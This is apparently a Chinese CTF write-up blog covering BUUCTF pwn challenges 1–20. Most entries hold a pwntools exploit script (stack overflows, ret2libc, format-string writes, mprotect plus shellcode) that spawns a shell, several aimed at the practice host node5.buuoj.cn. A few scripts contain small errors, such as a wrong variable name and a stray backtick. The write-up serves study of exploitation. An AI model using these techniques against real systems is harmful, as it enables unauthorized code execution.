



# buuctf刷题记录（1-20题）

by Maple

*有人说我的前面的题解没解析，看不懂？那我来补上了*


## 1 test\_nc

`nc 节点 端口`

> 没有nc？去看[这篇！](https://ctf-wiki.org/pwn/linux/user-mode/environment/)

然后`cat flag`

- cat:catch 抓住。就是显示文件中的内容


## 2 rip

打开ida看下源码


```asm
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

看到一个不限制输入长度的`gets()`函数，并且根据ida的分析，s位于栈底（rbp）上方`0xF`处,那么我们输入0xF字节之后再覆盖掉rbp，是不是就到了rbp下面的返回地址处？那么我们把后门函数的地址写在返回地址处，不就可以跳转到后门函数了嘛

> 为什么rbp下面是返回地址？罚你看[这篇](../../../Stack/汇编速通/index.md)

exp:


```
from pwn import *
p = process('./pwn1')
p.sendline(b'a'*0xF+b'b'*0x8+p64(0x40118a))
p.interactive()
```


## 3 warmup\_csaw\_2016

和上一题是一样的，可以将v5和rbp覆盖，然后篡改返回地址

exp:


```
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',28694)
payload = b'a'*72+p64(0x40060d)
p.sendline(payload)
p.interactive()
```

在本地打了半天以为我有问题，最后想起来system执行的是cat flag，不会有shell


## 4 ciscn\_2019\_n\_1

看下ida逆出来的代码



发现想要获取flag的内容，需要`v2=11.28125`,但是，我们一定要让if执行嘛，一定要合程序的意嘛，都打pwn了，怎么可以顺着程序的意来呢

所以有两种思路，一种是覆盖返回地址，一种是覆盖v2

1. 覆盖返回地址，直接`return system`处

exp:


```
from pwn import *
p = process('./pwn')
retaddr=0x4006BE
payload=b'a'*56+p64(retaddr)
p.sendline(payload)
p.interactive()
```

1. 覆盖v2数值

可以看到我们的输入是在v2赋值之后的事，所以可以通过溢出来把v2的值给覆盖了，`0x2c = 0x30-0x4`

> 不知道为什么填充的是`0x4138000`?学一下浮点数的存储叭，或者，按下tab，对准那个黄色的地方双击（如果不是这样子的话按下空格）
>
> 
>
> 你就得到了11.28125的十六进制存储
>
> 

exp：


```
from pwn import *
p = process('./pwn')
payload = b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
p.interactive()
```


## 5 pwn1\_sctf\_2016

限制了32字节的读入，但是后面的操作会把I变为you，留4字节给esp，输入20个I就行


```
from pwn import *
p = process('./pwn')
payload = b'I'*20+b'a'*4+p32(0x8048F0D)
p.sendline(payload)
p.interactive()
```

*这次学好了，先在本地创建了一个`flag.txt`的文件*


## 6 jarvisoj\_level0

ret2text不多说了(用了下自己的模板，有很多不需要)


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('',)
def dbg():
    gdb.attach(p)
    pause()
payload = b'a'*0x80+b'b'*0x8+p64(0x40059A)

p.sendline(payload)

p.interactive()
```


## 7 [第五空间2019 决赛]PWN5

有一个很好用的pwntools语法：


### `fmtstr_payload(number,{addr:value})`

- `number`表示偏移字节数，`addr`为你要写入的地址，`value`为你要更改为的数值

这里分析题目可以发现，我们在buf段溢出，然后覆盖`dword_804C044`，再输入相同的覆盖值就行


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()
p.recvuntil('name:')
payload = fmtstr_payload(11,{0x804C044:0x1})
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
```


## 8 jarvisoj\_level2

一个32位的题目，和64位有些区别，但不多

**32位`system（）`利用栈传参，不用寄存器**.


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

sys = 0x8048320 # system的地址
binsh = 0x804A024   #binsh的地址
payload = b'a'*0x88+b'b'*0x4+p32(sys)+p32(1)+p32(binsh)
#垃圾数据+覆盖返回地址(32位是4字节）+system地址调用+随意参数填充+binsh填充
p.sendline(payload)
p.interactive()
```


## 9 ciscn\_2019\_n\_8

可以发现如果var[13]是17就getshell


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

payload = p32(17)*14
p.sendline(payload)
p.interactive()
```


## 10 bjdctf\_2020\_babystack

自定义输入长度，栈溢出


```python
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

p.sendline(b'100')

payload = b'a'*0x10+b'b'*0x8+p64(0x4006EA)
p.sendline(payload)
p.interactive()
```


## 11 ciscn\_2019\_c\_1

ret2libc，加密的地方可以溢出，**可以在输入的地方输入一个'\0'绕开加密过程**


```python
from pwn import*
from LibcSearcher import*

p=remote('node5.buuoj.cn',26071)
#p = process('./pwn')
elf=ELF('./pwn')

main = 0x400B28
pop_rdi = 0x400c83
ret = 0x4006b9

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

p.sendlineafter('Input your choice!\n','1')
offset = 0x50+8
payload = b'\0'+b'a'*(offset-1)
payload+=p64(pop_rdi)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(main)
p.sendlineafter('Input your Plaintext to be encrypted\n',payload)
p.recvline()
p.recvline()
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
print(hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
p.sendlineafter('Input your choice!\n','1')
payload = b'\0'+b'a'*(offset-1)
payload+=p64(ret)
payload+=p64(pop_rdi)
payload+=p64(binsh)
payload+=p64(system)
p.sendlineafter('Input your Plaintext to be encrypted\n',payload)

p.interactive()
```


## 12 jarvisoj\_level2\_x64

rdi传递binsh

又是本地打不通，远程可以打通，不理解


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('node5.buuoj.cn',28182)
def dbg():
    gdb.attach(p)
    pause()

pop_rdi = 0x00000000004006b3
binsh = 0x600A90
system = elf.plt['system']
ret = 0x00000000004004a1
p.recv()
payload = b'b'*0x80+b'b'*8+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendline(payload)
p.interactive()
```


## 13 get\_started\_3dsctf\_2016

- 通过mprotect()函数改内存为可读可写可执行
- 加入read函数
- 在read函数中构造shellcode

至于为什么是0x80EB000而不是bss段的开头0x80EBF80。

> 因为指定的内存区间必须包含整个内存页（4K），起始地址 start 必须是一个内存页的起始地址，并且区间长度 len 必须是页大小的整数倍。


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25636)
def dbg():
    gdb.attach(p)
    pause()

pop_ret = 0x0804951D# 这里是一个有三个寄存器的pop_ret
mprotect_addr = elf.sym['mprotect']
mem_addr = 0x80EB000
mem_size = 0x1000
mem_proc = 0x7
read_addr = elf.sym['read']

# 调用mprotect函数
payload = b'a'*0x38
payload+=p32(mprotect_addr)
payload+=p32(pop_ret)

# 填充mprotect参数
payload+=p32(mem_addr)
payload+=p32(mem_size)
payload+=p32(mem_proc)

# 调用read函数
payload+=p32(read_addr)
payload+=p32(pop_ret)

# 填充read参数
payload+=p32(0)
payload+=p32(mem_addr)
payload+=p32(0x100)

# read返回后跳转到shellcode所在地址
payload+=p32(mem_addr)

p.sendline(payload)

payload2 = asm(shellcraft.sh())
p.sendline(payload2)
p.interactive()
```


### int mprotect(void \*addr, size\_t len, int prot); (NX保护绕过)

- **void \*addr**：目标内存区域的起始地址，**必须按页对齐**（对齐到系统页大小）
- \*\*页\*\*是操作系统管理内存的最小单位，大小通常为4KB(4096字节)或2MB(64位某些情况下的大页内存），页对齐是指内存地址必须是页大小的整数倍
- **size\_t len**
- 要修改权限的内存区域长度，**必须是页大小的整数倍**
- **int prot**：权限标志位，通过位掩码组合
- PROT\_READ(可读)
- PROT\_WRITE(可写）
- PROT\_EXEC(可执行)
- 返回值：
- 成功：返回`0`
- 失败：返回`-1`，并设置`errno`


## 14 [HarekazeCTF2019]baby\_rop

ROP构造


```
from pwn import *
p = process('./pwn')
elf = ELF('./pwn')

system_addr = elf.sym['system']
binsh = 0x601048
pop_rdi = 0x400683
ret = 0x400479`0

payload = b'a'*0x10+b'b'*0x8+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system_addr)
p.sendline(payload)
p.interactive()
```


## 15 others\_shellcode

我没看明白这题想干嘛，反正直接nc就getshell了，那就这样吧，似乎是直接进行了...


## 16 [OGeek2019]babyrop

感觉这题有些难度，稍微讲一下吧

`checksec`一下


```
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/16/pwn'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

可以看到没有`canary`保护

看一下主函数怎么说：


```asm
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h] BYREF
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

在fd大于0的时候会读取数据，来到`sub_804871F`里看看


```asm
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}
```

可以发现在`if (strncmp(buf, s, v1))`函数这里，如果`s`和`buf`的长度不一样就会退出程序

**但是这个函数本质上和`strlen`一样，在判断的字符串前加上`\x00`就直接跳过了，所以我们在输入的垃圾字符第一位加上`\x00`就行**

可以看到函数会将`buf`这个`char`型数组的`buf[7]`传出来给v2，再传递给`sub_80487D0(v2)`

去`sub_80487D0(v2)`里看看


```c
ssize_t __cdecl sub_80487D0(char a1)
{
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    return read(0, buf, 0xC8u);
  else
    return read(0, buf, a1);
}
```

可以看到这个里面的`read`读取数据的大小取决于传入的`a1`(其实就是`v2`，也就是`buf[7]`)

所以我们将`buf[7]`取到它的最大值（'\xff')，这个时候就可以通过溢出来构造`ret2libc`


### **ssize\_t write(int fd, const void \*buf, size\_t count);**

- **fd**:文件描述符，代表要写入的目标
- **0**：标准输入（通常不用于写入）
- **1**：标准输出（默认输出到终端）
- **2**：标准错误（默认输出到终端）
- **const void \*buf**:指向待写入数据的缓冲区指针
- **size\_t count**:要写入的字节数（从`buf`中读取的字节数）
- 如果`count`为0，不会写入数据，但仍会检查文件描述符的有效性
- **返回值:**
- 成功：返回实际写入的字节数
- 失败：返回`-1`，并设置`error`标识错误类型


```python
from pwn import *
from LibcSearcher import *
context(log_level='debug')
libc=ELF('./libc-2.23.so')  # 题目描述里有下载libc-2.23.so的网址
p=process('./pwn')
#p=remote('node5.buuoj.cn',27450)
elf=ELF('./pwn')
ret=0x08048502
payload='\x00'+'\xff'*7
p.sendline(payload)

write_plt=elf.plt["write"]
write_got=elf.got["write"]
main_addr=0x08048825
p.recvuntil("Correct\n")
payload1=b'a'*0xe7+b'a'*4+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(8)
#       溢出+覆盖+根据plt调用+返回main地址+wirte第一个参数+wirte第二个参数+write第三个参数
p.sendline(payload1)
write_addr=u32(p.recv(4))

libc_base=write_addr-libc.sym['write']
log.info("libc_base:"+hex(libc_base))
bin_sh_addr=libc_base+next(libc.search(b'bin/sh'))
system_addr=libc_base+libc.sym['system']

p.sendline(payload)
p.recvuntil("Correct\n")
payload2=b'a'*0xe7+b'a'*4+p32(system_addr)+p32(0)+p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()
```


## 17 ciscn\_2019\_n\_5

有两种做法，第一种应该是题目的原意，但是我的ubuntu版本比较高，出现了一些问题，就直接当作`ret2libc`来写了

第一种：

因为第一次输入name的地方很大并且可执行，所以写入`shellcode`，然后跳转到name的地址就好


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25442)
def dbg():
    gdb.attach(p)
    pause()

shellcode = asm(shellcraft.sh())
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil('me?\n')
payload = b'a'*0x20+b'a'*0x8+p64(0x601080)
p.sendline(payload)
p.interactive()
```

第二种：

直接当作`ret2libc`来写，第二次的时候可以先把`/bin/sh`写入name中，然后调用name里的，记得先`ret`对齐一下


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25442)
def dbg():
    gdb.attach(p)
    pause()
puts_got = elf.got['puts']
puts_plt=elf.plt['puts']
main = elf.sym['main']
pop_rdi = 0x400713
ret = 0x00000000004004c9

p.recvuntil('name\n')
p.sendline(b'a')
p.recvuntil('me?\n')
payload = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
log.info("libc_base:"+hex(libc_base))

system = libc_base+libc.dump('system')
p.sendafter(b'name\n', b'/bin/sh\x00')
payload =b'a'*(0x20 +8) +p64(ret) +p64(pop_rdi) +p64(0x601080) +p64(system)

p.sendlineafter(b'me?\n',payload)
p.interactive()
```

*LibcSearcher选择第6个*


## 18 not\_the\_same\_3dsctf\_2016

ida里面可以看到，在main函数上面的`get_secret`函数将`flag.txt`里的内容读入到了`bss`段，那么可以用`write`函数将其打印出来


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27329)
def dbg():
    gdb.attach(p)
    pause()
write_addr = elf.sym['write']
flag = 0x80ECA2D
payload = b'a'*45+p32(0x80489A0)+p32(write_addr)+p32(0)+p32(1)+p32(flag)+p32(42)
# 填充+读取flag函数跳转+write函数调用+write返回后的地址+fd参数+flag地址+输出字节数
p.sendline(payload)
p.interactive()
```


## 19 ciscn\_2019\_en\_2

`ret2libc`,没啥好说的，跟之前有一题很像


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29048)
def dbg():
    gdb.attach(p)
    pause()

pop_rdi = 0x0000000000400c83
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret = 0x4006b9
main = elf.sym['main']

p.recvuntil(b'choice!\n')
p.sendline(b'1')
p.recvuntil(b'encrypted\n')
payload = b'\x00'+b'a'*0x57+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
log.info("libc_base:"+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
p.recvuntil(b'choice!\n')
p.sendline(b'1')
p.recvuntil(b'encrypted\n')
payload = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(sys)
p.sendline(payload)
p.interactive()
```


## 20 ciscn\_2019\_ne\_5

这个题目挺有意思的

ida里看到4那个选项对应的就是`GetFlag()`,里面说我们输入的log就是flag，那么我们应该先选一输入`system(/bin/sh)`,但是没找到`/bin/sh`，


#### `system(sh)`也是可以的

这份exp是直接截断了fflush，也可以用`ROPgadget --binary pwn --string "sh"`来查查，确实有一个(似乎就是这一个)


```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

binsh = 0x80482E6+4 #0x80482E6是字符串fflush，这里对它做了一个截断，留下了sh
sys_addr = 0x80484D0
p.sendlineafter(b'password:',b'administrator')
p.recvuntil(b':')
p.sendline(b'1')
payload = b'a'*0x48+b'b'*0x4+p32(sys_addr)+b'a'*4+p32(binsh)
p.recvuntil(b'info:')
p.sendline(payload)
p.recvuntil(b':')
p.sendline(b'4')
p.interactive()
```
